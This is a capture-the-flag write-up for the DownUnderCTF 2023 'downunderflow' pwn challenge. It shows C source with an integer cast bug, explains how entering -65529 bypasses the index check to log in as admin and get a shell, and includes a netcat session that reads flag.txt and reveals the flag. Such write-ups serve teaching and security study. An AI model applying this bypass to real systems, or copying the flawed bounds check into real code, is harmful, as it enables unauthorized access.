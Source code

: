 # DownUnderCTF 2023

## downunderflow

> It's important to see things from different perspectives.
>
>  Author: joseph
>
> [`downunderflow.c`](downunderflow.c), [`downunderflow`](downunderflow)

Tags: _pwn_

## Solution
We are given the following executable plus code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define USERNAME_LEN 6
#define NUM_USERS 8
char logins[NUM_USERS][USERNAME_LEN] = { "user0", "user1", "user2", "user3", "user4", "user5", "user6", "admin" };

void init() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
}

int read_int_lower_than(int bound) {
    int x;
    scanf("%d", &x);
    if(x >= bound) {
        puts("Invalid input!");
        exit(1);
    }
    return x;
}

int main() {
    init();

    printf("Select user to log in as: ");
    unsigned short idx = read_int_lower_than(NUM_USERS - 1);
    printf("Logging in as %s\n", logins[idx]);
    if(strncmp(logins[idx], "admin", 5) == 0) {
        puts("Welcome admin.");
        system("/bin/sh");
    } else {
        system("/bin/date");
    }
}
```

The user is asked to enter a user index. The user index cannot exeed NUM_USERS-1 meaning we cannot login as admin. The index can be negative though. Since the index is casted to `unsigned short` we are able to enter larger values than NUM_USERS-1. We can just use `-65529` which is `-65536+7 === 7 mod 65536` (or really any other number that fits the equation).

```bash
─$ nc 2023.ductf.dev 30025
Select user to log in as: -65529
Logging in as admin
Welcome admin.
ls
flag.txt
pwn
cat flag.txt
DUCTF{-65529_==_7_(mod_65536)}
```

Flag `DUCTF{-65529_==_7_(mod_65536)}`